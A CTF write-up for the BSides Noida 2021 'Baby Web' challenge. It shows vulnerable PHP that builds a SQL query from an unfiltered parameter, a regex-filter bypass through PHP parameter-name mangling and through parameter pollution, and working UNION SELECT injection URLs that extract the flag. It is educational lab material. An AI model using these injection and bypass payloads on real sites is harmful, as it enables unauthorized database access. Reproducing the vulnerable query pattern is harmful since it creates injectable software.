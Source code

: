 # Baby Web 420 points

# Description
Just a place to see list of all challs from bsides noida CTF, maybe some flag too xD
Note : Bruteforce is not required.

[chall link](http://ctf.babyweb.bsidesnoida.in/)

# Attachments
[sauce](https://storage.googleapis.com/noida_ctf/Web/baby_web.zip)

# Solution
### Unintended Solution
After checking the given files, I found out that `karma.db` is placed in the root directory

So, access it and search for the flag

http://ctf.babyweb.bsidesnoida.in/karma.db

<img src="https://github.com/MikelAcker/BSides_Noida_CTF_2021/blob/main/Web/Baby%20Web/info1.png">

*flag*: `BSNoida{4_v3ry_w4rm_w31c0m3_2_bs1d35_n01d4}`

### Intended Solution
Looking at `index.php`, we can see that the website takes `chall_id` http parameter and passes it's value to "SELECT * FROM ..." query statement.
```php
...

if (isset($_GET['chall_id'])) {
    $channel_name = $_GET['chall_id'];
    $sql = "SELECT * FROM CTF WHERE id={$channel_name}";
    $results = $db->query($sql);

...
```
The parameter's vaule is **unfiltered**.So, we can do *injection* attack.

But, when we send payloads which contains *alphabet*, it gives error.

<img src="https://github.com/MikelAcker/BSides_Noida_CTF_2021/blob/main/Web/Baby%20Web/info2.png">

Checking carefully the *given* files again, I found that there is a **regex** that is used to prevent alphabets and white spaces in `chall_id` from `config/ctf.conf` file
```
...

if ( $arg_chall_id ~ [A-Za-z_.%]){
		return 500;
	}

...
```

We have to think how to *bypass*  it

After searching online, I found this useful article [PHP query string parser vulnerability](https://medium.com/@nyomanpradipta120/php-query-string-parser-vulnerability-cc6f0a8b206)

It says, in php query string parsing process, it removes or replaces some characters in the argument names with underscore.

For example: `post[id=1337` becomes `post_id=1337`

So, in this challenge, if we send `?chall[id`, the regex will see `chall[id` but the php application will see `chall_id`

We can do **injection** now!!!

`http://ctf.babyweb.bsidesnoida.in/?chall[id=1+or+1=1`

<img src="https://github.com/MikelAcker/BSides_Noida_CTF_2021/blob/main/Web/Baby%20Web/info3.png">

From opening given `karma.db` file, we can see that there are 6 *columns*.
```
$ cat karma.db
�_�%tableCTFCTFCREATE TABLE CTF(
  id integer AUTO_INCREMENT,
  title varchar(255) not NULL,
  description varchar(255) not NULL,
  category varchar(255) not NULL,
  author varchar(255) not NULL,
  points int NOT NULL
B��
...
```

Now, we can use **UNION SELECT** payload

`http://ctf.babyweb.bsidesnoida.in/?chall[id=1+union+select+1,2,3,4,5,6`

<img src="https://github.com/MikelAcker/BSides_Noida_CTF_2021/blob/main/Web/Baby%20Web/info4.png">

We can extract all the **tables** from **sqlite_master**

`http://ctf.babyweb.bsidesnoida.in/?chall[id=1+union+select+1,2,3,4,5,sql+from+sqlite_master`

<img src="https://github.com/MikelAcker/BSides_Noida_CTF_2021/blob/main/Web/Baby%20Web/info5.png">

There is a *table* **flagsss** and a column **flag** in it

Let's see if the flag is there

`http://ctf.babyweb.bsidesnoida.in/?chall[id=1+union+select+1,2,3,4,5,flag+from+flagsss`

<img src="https://github.com/MikelAcker/BSides_Noida_CTF_2021/blob/main/Web/Baby%20Web/info6.png">

Can't see the whole **flag** so I look at the source

<img src="https://github.com/MikelAcker/BSides_Noida_CTF_2021/blob/main/Web/Baby%20Web/info7.png">

And, there is the **flag**

*flag*: `BSNoida{4_v3ry_w4rm_w31c0m3_2_bs1d35_n01d4}`

# Another way to solve

We can use [HTTP Parameter Pollution](https://www.youtube.com/watch?v=QVZBl8yxVX0) to solve this challenge

`http://ctf.babyweb.bsidesnoida.in/?chall_id=1&chall_id=1+union+select+1,2,3,4,5,flag+from+flagsss`

When we send this payload, the **regex** filters the first `chall_id` but not the *last* one.

And also in **php** if there are same *http* parameters it will use only the **last** one

So, we can bypass the **regex** and do the *injection*
